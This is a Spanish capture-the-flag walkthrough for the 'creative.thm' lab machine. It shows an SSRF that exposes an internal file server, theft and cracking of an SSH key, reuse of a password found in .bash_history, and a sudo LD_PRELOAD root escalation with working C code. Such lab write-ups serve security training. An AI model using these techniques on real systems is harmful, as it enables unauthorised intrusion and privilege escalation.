

Como siempre, lo primero que haremos para trabajar de forma ordenada, es crearnos nuestros directorios de trabajo habituales. Con mkdir, vamos a crear una carpeta con el nombre de la máquina, nos meteremos en esa carpeta, y  creamos los directorios nmap, content y exploit. Luego nos vamos a meter en el directorio nmap, para empezar la fase de reconocimiento y enumeración. 

```bash
mkdir <Nombre_CTF>
cd !$
mkdir {nmap,content,exploit}
cd nmap
```

Lo primero que hemos hecho en la fase de reconocimiento, es comprobar si tenemos conectividad con la máquina objetivo. Para ello, hemos empleado el comando ping. Lo que vamos a hacer es enviar un paquete y analizar la respuesta. 

```bash
ping -c 1 [IPObjetivo]
```


Tal y como vemos en la imagen, se envía el paquete y se recibe un paquete, lo que indica que efectivamente la máquina si que está activa. Por otro lado, fijándonos en el valor del TTL, podemos intuir también ante que nos vamos a enfrentar. Por norma general, si el valor del TTL es de 64 o cercano a él, estaremos ante un Linux; mientras que si este valor es de 128 o próximo a él, estaremos ante un Windows. Comentar también que este valor, puede ser modificado, pero es una manera de identificar en un primer momento el tipo de equipo al que nos vamos a enfrentar. En este caso, podemos pensar que vamos a estar tratando con un Linux. 

La siguiente tarea que hemos hecho, es tratar de descubrir qué puertos hay abiertos en la máquina objetivo. Para ello, tiramos de nmap. 

```bash
sudo nmap -p- --open -sS -vvv -n -Pn <IP_Objetivo> -oG <Nombre_archivo>
```

- Parámetros de nmap
  - *-p-* Escanea el rango total de puertos (65535). 
  - *--open* Nos reportará solo los puertos abiertos. 
  - *-sS* (TCP SYN), también conocido como TCP SYN scan o Half-Open Scan. Es un tipo de escaneo más sigiloso que otro tipo de escaneos ya que no completa la conexión TCP, evitando en gran medida que se registre en los logs del sistema objetivo. Sin embargo, algunos sistemas de seguridad si que pueden detectar este tipo de escaneo y tomar medidas.
  - *-vvv* Triple verbose, para ver en consola lo que vaya encontrando nmap
  - *-n* Para no aplicar resolución DNS 
  - *-Pn* No realiza detección de Host. Con este parámetro nmap asumirá que los Host especificados están activos. 
  - *-oG* Genera un archivo de salida en formato Greppable, con el nombre que le hayamos especificado

Para ver los resultados podemos hacerle un cat al archivo generado.


Tal y como vemos en la imagen, encontramos 2 puertos abiertos, el puerto 22 SSH y el puerto 80 HTTP. Con esta información, lo siguiente que vamos a tratar de hacer, es comprobar por un lado la versión de los servicios que corren en estos 2 puertos; y por otro lado vamos a lanzar también un conjunto de scripts básicos de reconocimiento disponibles entre los scripts de nmap, para tratar de enumerar más el objetivo. Para ello, empleamos el siguiente comando 

```bash
nmap -sC -sV -p<Puertos_a_Escanear> <IP_Objetivo> -oN <Nombre_Archivo>
```

Si le hacemos un cat al archivo generado, veremos más información. 


Destacamos en primer lugar, que estamos enfrentándonos a un Ubuntu. 
También vemos por ahí la versión de SSH que se está utilizando (OpenSSH 8.2). Tratamos de ver si existe alguna vulnerabilidad asociada a esta versión, pero no encontramos nada. Las versiones inferiores a la 7.7 si que son vulnerables a una enumeración de usuarios, pero en este caso, poco más vamos a poder hacer por esta vía sin credenciales de acceso. 
En cuanto al puerto 80, ejecuta un servicio web, con Nginx 1.18.0. 
De hecho, también vemos algo curioso. Entre los scripts básicos que nmap ha probado, el script http-title, intenta encontrar el título del sitio web, pero no lo ha encontrado, porque estamos siendo redirigidos a "http://creative.thm" y nmap no ha seguido el redireccionamiento. Esto ya puede hacernos sospechar que se esté aplicando Virtual Hosting. 

En este escenario, lo que hacemos es ver qué hay en el servidor web del puerto 80. Antes de eso, podemos con whatweb tratar de enumerar las tecnologías que se están empleado por detrás, e incluso tratar de ver si se está empleando algún CMS, tipo WordPress, Joomla, etc. Igualmente vamos a poder ver esta información si lo preferimos, a través de la web si empleamos la extensión Wappalyzer. 

```bash
whatweb http://[IPObjetivo]:80
```


Whatweb nos da como vemos alguna información bastante útil, y volvemos a ver el mensaje de que estamos siendo redireccionados a "http://creative.thm". 

Ahora ya sí, vamos a echarle un vistazo al sitio web a ver qué nos encontramos. 

```
http://[IPObjetivo]:80
```

En un principio notamos que la página no nos carga correctamente. Vamos a ver por qué. Esta tarea podemos hacerlo de muchas formas posibles, vamos a comentar algunas de ellas. De hecho, ya con nmap o whatweb, hemos visto el nombre del dominio al que estamos siendo redireccionados. Aún así, si aún no lo hemos visto claro, podemos confirmarlo de otras formas. 

Lo primero que notamos a visitar el sitio web, aparte de que no nos carga, es que en la URL, nos está redirigiendo a un dominio llamado "creative.thm". 


Otra forma de comprobarlo, es capturar la petición con Burpsuite y ver hacía donde nos está redirigiendo. 


Otra forma de comprobarlo, es Inspeccionar desde el apartado red (F12)


Una vez hemos comprobado que efectivamente se está aplicando Virtual Hosting, para solucionar esto simplemente tendremos que ir a nuestro equipo Kali, y añadir en el archivo /etc/hosts el dominio al que nos está redirigiendo el servidor web. Es una forma de decirle a nuestro equipo hacía dónde tiene que ir, de forma que relaciona la dirección IP del servidor, con el nombre de dominio. 

```bash
sudo echo "[IPObjetivo] creative.thm"  >> /etc/hosts
```

Otra forma de hacerlo, es también con el siguiente comando 

```bash
echo -e '[IPObjetivo]\tcreative.thm' | sudo tee -a /etc/hosts
```


Si ahora volvemos al navegador y volvemos a ver el sitio web (ya sea con la IP o con el nombre de dominio), veremos que ahora si que nos carga correctamente. 

```
http://[IPObjetivo]:80
http://creative.thm:80
```


Solucionado este primer inconveniente, seguimos con la resolución de la máquina. 

Inspeccionamos un poco el sitio web, inspeccionamos el código, y aplicamos Fuzzing web para encontrar directorios ocultos, pero no encontramos nada a destacar. Lo que nos queda hacer, es tratar de encontrar subdominios. Para ello, podemos hacerlo también de varias formas. Vamos a ver cómo podríamos hacerlo tirando de Gobuster y de ffuf. 

```bash
gobuster vhost -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -u http://creative.thm --append-domain -o subdomain.txt
```

Con el parámetro --append-domain, le estamos indicando a gobuster que nos agregue los subdominios encontrados, al dominio principal automáticamente. 

Si le hacemos un cat al archivo generado (subdomain.txt), veremos que nos ha encontrado el subdominio "beta.creative.thm", que tendremos que añadir también a nuestro /etc/hosts. 


Otra forma de hacerlo es con ffuf, empleando en este caso el siguiente comando 

```bash
ffuf -u 'http://creative.thm/' -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host: FUZZ.creative.thm" -mc all -t 100 -fs 178 
```

- Parámetros de ffuf
  - *-u-* Le indicamos la URL. ffuf enviará solicitudes a este dominio, pero modificando la cabecera HOST.
  - *-w* Le indicamos el diccionario a utilizar. Cada una de estas palabras, se sustituirá en la palabra FUZZ. 
  - *-H* En la cabecera HOST, como decíamos, se sustituirá cada una de las palabras del diccionario en la palabra FUZZ
  - *-mc* Indicándole all, le estamos diciendo que nos muestre todas las respuestas sin filtrar por código de estado HTTP, ya que por defecto, ffuf, solo muestra respuestas con código de estado exitoso (200) o movido permanentemente (301)
  - *-t* Jugamos un poco con hilos para tratar de acelerar el escaneo. En entornos reales no es recomendable, pero al ser un CTF no está mal emplearlo. 
  - *-fs* Con esto le estamos indicando que no nos muestre respuestas con 178 bytes, ya que hasta donde tenemos entendido, algunos servidores web devuelven páginas de error genéricas cuando no existe el subdominio o no hay contenido. Es una forma de limpiar la salida de ffuf para que no nos de respuestas irrelevantes o no útiles. 


Como vemos en la imagen, igualmente ffuz nos encuentra el subdominio beta. Pues lo dicho, vamos a añadirlo a nuestro /etc/hosts como hicimos anteriormente 

```bash
echo -e '[IPObjetivo]\tbeta.creative.thm' | sudo tee -a /etc/hosts
```


Si vamos a nuestro navegador a ver el contenido de esta nueva dirección veremos lo siguiente 

```
http://beta.creative.thm
```


"This page provides the functionality that allows you to test a URL to see if it is alive. Enter a URL in the form below and click "Submit" to test it." 

Simplemente viendo un poco la descripción de esta aplicación o servicio, ya debemos pensar en un posible SSRF.  Recordando muy brevemente, SSRF es uno de los 10 principales riesgos de seguridad de las aplicaciones de la OWASP. Se produce cuando un atacante puede manipular la entrada para especificar una URL de destino en una solicitud HTTP del lado del servidor, es decir, puede manipular el servidor para que realice solicitudes HTTP en su nombre. Si este servicio no valida o restringe las URL de entrada que le introduzcamos, puede ser peligroso para ellos y guay para nosotros. De hecho, podemos probar a llamar al localhost del servidor, y si nos responde, chungo, porque significará que hay algo corriendo en local en esa máquina. 


Como comentábamos, hemos hecho una petición al localhost del servidor y nos responde con lo siguiente. 


Nos está mostrando el mismo contenido del sitio web que corre por el puerto 80 que está expuesto externamente. Pero por lo que hemos visto, también está corriendo internamente en el servidor. Podría ser que se esté ejecutando algún otro servicio en otro puerto distinto. 

Tras un rato investigando, lo que hicimos fue tratar de ver si se estaban ejecutando servicios internos dentro del servidor. Para ello, volvimos a hacer uso de ffuz para Fuzzear en el campo donde le indicamos el puerto. 

```bash
ffuf -u 'http://beta.creative.thm/' -d "url=http://127.0.0.1:FUZZ/" -w <(seq 1 65535) -H 'Content-Type: application/x-www-form-urlencoded' -mc all -t 100 -fs 13
```

 Parámetros de ffuf
  - *-u-* Le indicamos la URL. 
  - *-d* Utilizamos este parámetro para especificar los datos que se envían en la solicitud. En este caso, le estamos enviando un parámetro url con el valor http://127.0.0.1:FUZZ, donde FUZZ como decíamos, es donde se va a sustituir lo especificado en el parámetro -w que explicamos a continuación. 
  - *-w* Utilizamos este parámetro para indicarle el archivo o lista de palabras que se van a sustituir en la palabra FUZZ. En este caso, le vamos a indicar un secuenciador, que irá probando del 1 al 65535, que son el número de puertos existentes.  
  - *-H* Esta opción es para añadir cabeceras HTTP a la solicitud. Le vamos a especificar la cabecera Content-Type que vemos en el comando, que es un formato común cuando los datos se envían como si estuviéramos enviando un formulario HTML. Además es necesario cuando el servidor espera recibir datos en este formato. Si queremos ver el tipo de cabecera, podemos interceptarla con Burpsuite. 
  - *-fs* En este caso, le estamos indicando que no se muestren respuestas con un tamaño de 13 bytes, ya que son demasiado pequeñas y generalmente son páginas de error. 


Nuestras sospecha se confirmaron. Vemos que internamente, se están ejecutando dos servicios web. Uno por el puerto 80 (que es el mismo que se expone al exterior), y otro en el puerto 1337, que obviamente, vamos a revisar ahora mismo. 

```
http://127.0.0.1:1337
```


Empeora la cosa, porque lo que se está mostrando por este puerto, es la raíz del sistema. Si vamos pinchando en los directorios, nos dará fallo no se muy bien por qué. Pero lo que vamos a hacer, es cargarlo desde la propia URL introducida. Vamos probando cada uno de los directorios y bajo el directorio /home/ vemos lo siguiente

```
http://127.0.0.1:1337/home/
```


Nos revela que hay un usuario llamado saad. Como pinchando no nos funciona, volvemos a verlo desde la URL introducida. 

```
http://127.0.0.1:1337/home/saad/
```


Vemos los archivos de este usuario. Y vemos varias cosas interesantes. En primer lugar la Flag de user.txt. Vemos también por ahí, un .bash_history que inspeccionaremos. Y vemos también el directorio .ssh, que quizá pueda contener la clave id_rsa del usuario. De hecho es lo primero que vamos a hacer. Vamos a ver si podemos ver esa clave, para ganar acceso al equipo, y una vez dentro, ya inspeccionamos lo demás. 

```
http://127.0.0.1:1337/home/saad/.ssh/id_rsa
```

Para verla mejor, lo que vamos a hacer es abrirnos el apartado de Inspeccionar código (CTRL + U)


Pues efectivamente, tenemos la clave id_rsa del usuario, por lo que vamos a conectarnos mediante SSH. Para ello, nos copiamos esta clave en un archivo llamado id_rsa bajo nuestro directorio de trabajo content. También le vamos a dar el permiso 600, ya que es necesario para poder utilizarla. 

```bash
chmod 600 id_rsa
```

Si tratamos de conectarnos empleando la clave, veremos que está protegida por una contraseña. 


Tendremos que encontrar esta contraseña, y para ello es muy útil john. Pero antes de poder emplear john, es necesario hacer un paso previo para convertir esta clave id_rsa en un formato tipo hash que john sea capaz de entender. Para ello emplearemos la herramienta ssh2john. 

```bash
ssh2john id_rsa >> id_rsa_hash
```

Ahora ya sí con john, y empleando el diccionario rockyou.txt, vamos a tratar de romper la contraseña. 

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa_hash
john --show id_rsa_hash
```


Pues como vemos, la contraseña de esta clave id_rsa es la siguiente 

```
sweetness
```

Ahora ya sí, podemos conectarnos mediante SSH a la máquina objetivo como el usuario saad empleando su clave id_rsa 

```bash
ssh -i id_rsa saad@[IPObjetivo]
```

Ingresamos la contraseña de la clave id_rsa y estamos dentro. Si queremos hacer CTRL + L para limpiar la consola, podemos cambiar la variable TERM a xterm. 

```bash
export TERM=xterm
```


Tal y como vemos, estamos dentro como el usuario saad. Ahora ya sí, vamos a echarle un vistazo al archivo user.txt para ver la primera Flag 

```bash
cat /home/saad/user.txt
```


Teníamos también pendiente revisar el archivo .bash_history, que siempre es una de las primeras cosas a revisar al ganar acceso a un sistema. En este punto, recordar también la importancia de listar archivos ocultos con el siguiente comando. Con el parámetro -a, nos listará los archivos ocultos. En linux, los archivos ocultos se identifican fácilmente, porque siempre empiezan por un punto (.archivo)

```bash
ls -la
cat .bash_history
```


Como vemos, conseguimos información importante. Tenemos la contraseña del usuario saad. La ha guardado en un archivo llamado creds.txt que luego justo después ha borrado, pero al utilizar el comando echo y la contraseña en texto claro, al ver el bash_history (que es un archivo que guarda los comandos introducidos en la consola), hemos podido verlo. Nos apuntamos por aquí la contraseña

```
MyStrongestPasswordYet$4291
```

Ahora para elevar nuestros privilegios y convertirnos en usuario root, ejecutaremos el siguiente comando. Será necesario la contraseña del usuario saad, por eso también era importante encontrarla para poder elevar nuestros privilegios. 

```bash
sudo -l
```


Vamos a ver varias cosas interesantes. En primer lugar, vemos que el usuario saad, puede ejecutar como root el binario ping. Lo primero que se nos ocurre es ir a GTFOBins para ver si hay algún método de escalar privilegios de esta forma, pero no encontramos nada. Otra cosa que nos llama la atención es lo siguiente que hemos remarcado con una flechita. 

LD_PRELOAD es una función que permite que cualquier programa utilice bibliotecas compartidas. Como vemos, la opción "env_keep" está habilitada, lo que significa que podemos generar un biblioteca compartida que se cargará y ejecutará antes de ejecutar el programa. Tener en cuenta también que la opción LD_PRELOAD, se ignorará si el UID de usuario real, es deferente, por lo que lo primero que vamos a  hacer, es en primer lugar,  buscar una forma de modificar el UID y GID del usuario. Encontramos rápidamente un script en C que nos permite hacer esto. Lo que vamos a hacer, es ir al directorio /tmp y crear un script en C, llamado por ejemplo shell.c, con el siguiente contenido. 

```c
#include <stdio.h>  
#include <sys/types.h>  
#include <stdlib.h>

void _init() {  
unsetenv("LD_PRELOAD");  
setgid(0);  
setuid(0);  
system("/bin/bash");  
}
```

Este código escrito en C como decimos, lo que está haciendo es modificar el UID Y GID, poniéndolo a 0, que es el que se corresponde con el usuario root. Luego, está ejecutando una bash. 

Con este código, lo que vamos a hacer es compilarlo y darle salida en formato Shared Object (.so), que es un archivo de objeto compartido. Para compilarlo, podemos utilizar gcc y estos parámetros. 

```bash
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```


Pues ya tenemos lista nuestra biblioteca compartida maliciosa. Podemos hacerle un file si queremos para asegurarnos. Ahora, vamos a ejecutar el comando ping (que podemos hacerlo como root), pero cargándole la biblioteca maliciosa que hemos creado. De esta forma, al ejecutarse, y al hacerlo como root, lo que estará haciendo es darnos una Bash. Vamos a ponerlo a prueba 

```bash
sudo LD_PRELOAD=/tmp/shell.so ping
```


Tal y como vemos, somos root. Ya solo nos queda ir al directorio personal del usuario root y hacerle un cat a la Flag 

```bash
cat /root/root.txt
```


